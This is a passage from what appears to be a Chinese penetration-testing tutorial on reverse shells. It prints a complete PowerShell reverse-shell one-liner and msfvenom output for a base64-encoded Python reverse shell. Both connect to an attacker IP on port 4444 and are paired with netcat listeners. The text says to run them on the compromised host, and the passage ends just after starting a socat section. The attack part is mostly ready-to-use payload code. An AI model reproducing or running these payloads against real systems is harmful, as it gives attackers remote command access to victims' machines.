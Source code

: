 ```
powershell -w hidden -nop -c $a='172.16.214.43';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}

> nc -lvp 4444
```

将生成的 payload 复制到失陷主机上运行，即可收到反弹回的 shell

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-05-28_12-36-45.png)

再比如使用 `cmd/unix/reverse_python` 这个payload

````
# 控制端
> msfvenom -p cmd/unix/reverse_python lhost=172.16.214.43 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 505 bytes
python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICwgc3VicHJvY2VzcyAgICwgb3M7ICAgICAgaG9zdD0iMTcyLjE2LjIxNC40MyI7ICAgICAgcG9ydD00NDQ0OyAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICwgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICBzLmNvbm5lY3QoKGhvc3QgICAsIHBvcnQpKTsgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsIDApOyAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgMSk7ICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAyKTsgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=')[0]))"

> nc -lvp 4444
````

同样将生成的 payload 复制到失陷主机上运行，即可收到反弹回来的 shell，当然前提是目标主机安装了 python

## 3、socat 使用

socat 下载地址：[http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)，或者直接使用 `apt-get install socat` 安装，Mac 可使用 `brew install socat` 安装。

socat 全称 socket cat，可以视为 nc 的加强版，不过平时感觉 nc 也够用了，但是 nc 现在貌似会被杀软杀掉，而且貌似 nc 很久没更新了，反正多掌握点知识没坏处。

### 文件操作
